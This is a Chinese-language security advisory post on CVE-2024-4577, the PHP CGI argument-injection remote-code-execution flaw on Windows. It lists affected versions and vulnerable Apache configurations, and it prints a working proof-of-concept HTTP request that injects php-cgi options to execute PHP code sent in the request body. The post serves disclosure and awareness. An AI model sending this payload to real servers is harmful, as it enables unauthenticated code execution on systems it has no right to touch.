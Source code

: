 #  CVE-2024-4577｜PHP CGI Windows平台远程代码执行漏洞（POC）   
alicy  信安百科   2024-06-07 18:29  
  
**0x00 前言**  
  
  
PHP是Hypertext Preprocessor(超文本预处理器)的缩写，源自于“PHP/FI”的工程，在它的起源初期主要用于统计自己网站的访问者，后来用c语言进行了重新编写，拥有了自己的访问文件和数据库功能．在1995年发布了PHP 1．0第一个版本。  
  
  
PHP是一种广泛使用的开源的脚本语言，它特别适合Web开发和嵌入HTML中，这种语言使用起来简单。  
  
  
CGI、以CGI的方式运行，CGI英文叫做公共网关接口，就是Apache在遇到PHP脚本的时候会将PHP程序提交给CGI应用程序（php-cgi.exe）解释，解释之后的结果返回给Apache，然后再返回给相应的请求用户。  
  
  
  
**0x01 漏洞描述**  
  
> PHP 在设计时忽略 Windows 中对字符转换的Best-Fit 特性，当PHP运行在Window平台且使用了如下语系（简体中文936/繁体中文950/日文932等）时，攻击者可构造恶意请求绕过CVE-2012-1823 保护，从而可在无需登陆的情况下执行任意PHP代码。  
  
  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-4577  
  
  
  
**0x03 影响版本**  
  
  
PHP 8.3 < 8.3.8  
  
PHP 8.2 < 8.2.20  
  
PHP 8.1 < 8.1.29  
  
  
针对其他版本，PHP官方已不在维护，建议根据实际情况进行缓解措施。  
  
  
情境一：  
  
将PHP设定于CGI模式下执行  
  
在Apache Httpd设定档中透过Action语法将对应的HTTP请求交给PHP-CGI执行档处理时，受此弱点影响，常见设定包含但不限于：  
```
AddHandler cgi-script .php
Action cgi-script“/cgi-bin/php-cgi.exe”
```  
  
或  
```
<FilesMatch“\.php$”>
SetHandler application/x-httpd-php-cgi
</FilesMatch>
Action application/x-httpd-php-cgi“/php-cgi/php-cgi.exe”
```  
  
  
情境二：  
  
将PHP执行档暴露在外（XAMPP预设安装设定）  
  
即使未设定PHP于CGI模式下执行，仅将PHP执行档暴露在CGI目录下也受此弱点影响，常见情况包含但不限于：  
  
将php.exe或php-cgi.exe复制到/cgi-bin/目录中  
  
将PHP安装目录透过ScriptAlias暴露到外，如：  
```
ScriptAlias /php-cgi/“C:/xampp/php/”
```  
  
  
  
**0x04 漏洞详情**  
  
****  
POC：  
```
POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{host}}
User-Agent: curl/8.3.0
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
phpinfo();
?>
```  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6uo4d483Olm9GcP162GBHOvZJ5bptdia6ibFD21x9HbukD3KeXf8FWq7RdPX0Uibmp2icmQ51n1krFa6pA/640?wx_fmt=png&from=appmsg "")  
  
  
  
执行命令：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6uo4d483Olm9GcP162GBHOvZ2w01Wq6ZQT8NeDEFq3QO84G8ShKzC9sUDK82k4SH3kMaUa8OElgf9g/640?wx_fmt=png&from=appmsg "")  
  
(来源于网络)  
  
  
  
**0x05 参考链接**  
  
  
https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability/  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-24919｜CheckPoint Gateway任意文件读取漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485375&idx=1&sn=65e8515e23d1c84030d976d50f2e9615&chksm=cea96e66f9dee770a8a78a2b2b551a99a91b768f08464fd816b08dd7696894232b83923f8baa&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-21683｜Atlassian Confluence远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485351&idx=2&sn=0adc42b4d60e706882552cdd8c61db21&chksm=cea96e7ef9dee7686226667380cede00bff25f0cfbeb37361ea7e4d10ef65d4c526ba54168f8&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-4985｜GitHub Enterprise Server身份验证绕过漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485351&idx=1&sn=43476287a5e8d12e56ff5f82b16417ed&chksm=cea96e7ef9dee768c9b7acf27dc5088b21493f1e5bde1dae0914bd45424895ef34022573ad96&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  

